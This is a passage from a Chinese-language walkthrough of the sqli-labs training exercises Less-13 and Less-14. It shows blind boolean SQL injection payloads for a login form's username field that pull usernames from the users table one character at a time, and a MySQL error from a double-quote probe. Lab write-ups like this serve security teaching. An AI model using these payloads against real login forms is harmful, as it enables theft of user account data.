 + 发现页面仅返回了一个flag.jpg图片。

+ 接下来我们或利用二分法获取数据：

```sql
# 查询第一位数据
# 错误
uname=admin')and+1=if(substr((select+group_concat(username)+from+users),1,1)='a',1,0)--+&passwd=&submit=Submit
# 错误
uname=admin')and+1=if(substr((select+group_concat(username)+from+users),1,1)='b',1,0)--+&passwd=&submit=Submit
...
# 正确
uname=admin')and+1=if(substr((select+group_concat(username)+from+users),1,1)='d',1,0)--+&passwd=&submit=Submit

# 查询第二位数据
# 错误
uname=admin')and+1=if(substr((select+group_concat(username)+from+users),2,1)='a',1,0)--+&passwd=&submit=Submit
# 错误
uname=admin')and+1=if(substr((select+group_concat(username)+from+users),2,1)='b',1,0)--+&passwd=&submit=Submit
# 错误
uname=admin')and+1=if(substr((select+group_concat(username)+from+users),2,1)='c',1,0)--+&passwd=&submit=Submit
...
# 正确
uname=admin')and+1=if(substr((select+group_concat(username)+from+users),2,1)='u',1,0)--+&passwd=&submit=Submit
```

## Less-14 双注入双引号字符串

+ 使用双引号后得到如下错误信息：

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '""" and password="" LIMIT 0,1' at line 1
```

+ 由于这里的和Less-13区别不大，根据题目提示将Less-13的单引号替换成双引号：

```sql
# 查询第一位数据
# 错误
uname="and+1=if(substr((select+group_concat(username)+from+users),1,1)='a',1,0)--+&passwd=&submit=Submit
# 错误
uname="and+1=if(substr((select+group_concat(username)+from+users),1,1)='b',1,0)--+&passwd=&submit=Submit
...
# 正确
uname="and+1=if(substr((select+group_concat(username)+from+users),1,1)='d',1,0)--+&passwd=&submit=Submit

# 查询第二位数据
# 错误
uname="and+1=if(substr((select+group_concat(username)+from+users),2,1)='a',1,0)--+&passwd=&submit=Submit
# 错误
uname="and+1=if(substr((select+group_concat(username)+from+users),2,1)='b',1,0)--+&passwd=&submit=Submit
# 错误
uname="and+1=if(substr((select+group_concat(username)+from+users),2,1)='c',1,0)--+&passwd=&submit=Submit
```